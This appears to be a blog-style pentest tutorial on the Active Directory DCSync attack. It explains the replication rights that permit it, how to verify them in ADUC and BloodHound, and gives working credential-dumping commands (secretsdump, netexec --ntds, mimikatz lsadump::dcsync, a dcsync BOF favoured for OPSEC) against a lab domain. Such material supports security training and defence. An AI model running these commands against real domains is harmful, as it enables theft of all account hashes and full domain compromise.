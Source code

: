 ```yaml
---
title: ⚔️DACL - DCSync
date: 2025-10-28 01:10:00 +/-TTTT
categories: [DACL]
tags: [DCSync]     # TAG names should always be lowercase
image : /assets/images/dcsyncbackground.png
---
```


# DCSync

DCSync = **Domain Controller Synchronization**

an Active Directory environment, Domain Controllers replicate data with each other to ensure consistency. This includes sensitive information such as user credentials and password hashes. Microsoft designed this as a core feature of AD so that authentication and authorization always work across different DCs.

However, this replication mechanism can be abused. The **DCSync attack** allows an adversary with certain directory replication rights to impersonate a Domain Controller and request password data directly from Active Directory. Instead of compromising the Domain Controller itself, the attacker leverages built-in replication functions to extract credentials.

To perform a successful DCSync, an attacker must have at least the following rights:

- **Replicating Directory Changes**
- **Replicating Directory Changes All**
- **Replicating Directory Changes in Filtered Set**

If granted, these rights effectively provide the same power as a Domain Controller, since they allow pulling all password hashes, including those of privileged accounts such as **KRBTGT** and **Domain Admins**.

## DCSync  **happening why?**

Before start lets learn why is happening? where to check and verify?

We have to open `dsa.msc` → ADUC first and make sure its enabled.

1. Go to the **Security** tab.
    - If you don’t see it: in ADUC, click **View → Advanced Features**, then open Properties again.
2. Click **Advanced**.

Now we can go our target to verify

1. We can go our target directly and `right click` and select `Properties`  After u select victim user and check `Permissions` 
    
![alt text](../assets/images/dacl125.png)
    

## DCSync **Verify**

### DCSync **Verify w Bloodhound**

![alt text](../assets/images/dacl126.png)

and u can see we can use secretsdump directly

![alt text](../assets/images/dacl127.png)

## DCSync **Attack (Linux Abuse)**

We can easily do with secretsdump btw

```bash
secretsdump.py lab.local/osman:iloveyou@192.168.1.10
```

![alt text](../assets/images/dacl128.png)

or with netexec `--ntds` module

```bash
nxc smb VALENOR-DC01.lab.local -u osman -p iloveyou --ntds
```

![alt text](../assets/images/dacl129.png)

## DCSync **Attack (C2 Abuse)**

Lets do with mimikatz

```bash
mimikatz lsadump::dcsync /domain:lab.local /user:Administrator
```

![alt text](../assets/images/dacl130.png)

or we can use **dcsync** bof which is more good for OPSEC

```bash
dcsync lab.local Administrator
```

![alt text](../assets/images/dacl131.png)
